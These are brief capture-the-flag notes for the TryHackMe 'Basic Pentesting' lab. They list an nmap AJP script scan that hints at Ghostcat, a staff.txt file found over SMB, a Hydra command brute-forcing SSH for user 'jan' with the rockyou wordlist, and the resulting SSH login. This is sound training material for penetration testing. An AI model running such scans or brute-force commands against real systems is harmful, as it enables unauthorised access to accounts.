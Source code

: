 # 8009 APJ
```
┌──(kali㉿kali)-[~/…/THM/Basic Pentesting/recon/nmap]
└─$ nmap -sV --script ajp-auth,ajp-headers,ajp-methods,ajp-request -n -p 8009 10.10.214.159 -oA APJ
ghostcat
```

# SMB 139, 445

Found staff.txt

# Hydra
Yes now we have names and it was mentioned before that Jan had a easy to crack password. So let's brute force ssh:
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.214.159
```

Bingo!
                                  
# Login with ssh:
```
ssh jan@10.10.214.159
```


